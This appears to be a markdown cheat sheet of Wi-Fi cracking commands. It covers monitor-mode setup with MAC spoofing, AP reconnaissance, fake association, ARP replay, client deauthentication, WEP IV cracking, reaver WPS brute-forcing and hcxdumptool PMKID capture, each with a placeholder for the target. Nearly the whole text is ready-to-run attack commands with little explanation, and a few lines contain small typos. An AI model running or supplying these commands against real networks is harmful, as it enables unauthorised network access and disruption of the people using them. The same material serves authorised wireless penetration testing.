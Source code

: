 # WiFi Cracking Commands

## Setup
```
ifconfig wlan0 down
```

```
airmon-ng check kill
```

Change MAC of monitor card

```
macchanger -r wlan0
```

```
iwconfig wlan0 mode monitor
```

```
ifconfig wlan0 up 
```

## Recon

list wifi APs

```
airodump-ng wlan0
```

Filter by encryption method

```
airodump-ng wlan0 --encrypt wep
```

filter by wifi type (example is capture 2.4 and 5GHZ)

```
airodump-ng wlan0 -b abg
``` 

filter out unassociated clients

```
airodump-ng wlan0 -a
```

Capture IVs from AP or list clients

```
airodump-ng --bssid <BSSID> -c <CHANNEL> -i wlan0 --write <filename>  
```

```
airodump-ng --bssid <BSSID> -c <CHANNEL> wlan0 --output-format <FORMAT e.g.> pcap --write <PATH/TO/FILE>
```

## Fake Association

```
aireplay-ng -1 0 -e <target ESSID> -a <target BSSID> -h <WiFi card BSSID> wlan0
```

```
aireplay-ng -1 6000 -o 1 -q 10 -e <target ESSID> -a <target BSSID> -h <WiFi card BSSID> wlan0
```

## ARP Replay

Replay ARPs to drive up IVs

```
aireplay-ng -3 -b <>target BSSID> -h <client BSSID> wlan0
```

#Deauth client (c) from AP (a) 

```
aireplay-ng -0 0 -a <BSSID> -c <CLIENT MAC> wlan0
```

Associate to AP (a)

```
aireplay-ng -1 0 -a <BSSID> wlan0
```

Extract WEP IVs from PCAP

```
ivstools --convert PCAP OUT.ivs
```

Merge IV files

```
ivstools --merge *.ivs /root/all-ivs.ivs
```

## WEP attacks

```
aircrack-ng (-K) -b <bssid> crack.cap
```

## WPS attacks

List APs with WPS enabled

```
wash -i wlan0
```

Brute-force WPS

```
reaver -i wlan0 -b <BSSID> -d 5 -N -S -vv --no-nacks
```

```
reaver -i wlan0 -c 1 -b TARGET_ROUTER_MAC -vv -L -N -d 15 -T .5 -r 3:20
```

## hcxdumptool <PMKID attack>

```
sudo hcxdumptool -o cap01.pcapng -i wlan0 --filterlist=filter.txt --filtermode=2 --enable_status=1 -c 1 #capture PMKIDS w/ hcxdumptool
```

```
sudo hcxpcaptool -E essidlist -I identitylist -U usernamelist -z cap01.16800 cap01.pcapng #convert PCAPNG to Haschcat format
```

```
sudo hcxpcapngtool <INPUT FILE(S)> -o <OUTPUT FILE>
```

## Cracking syntax

Get a list of BSSIDs, SSIDs, and handshake counts for PCAP, select index to crack

```
aircrack-ng <path/to/pcap(s)/ -w /path/to/wordlists
```
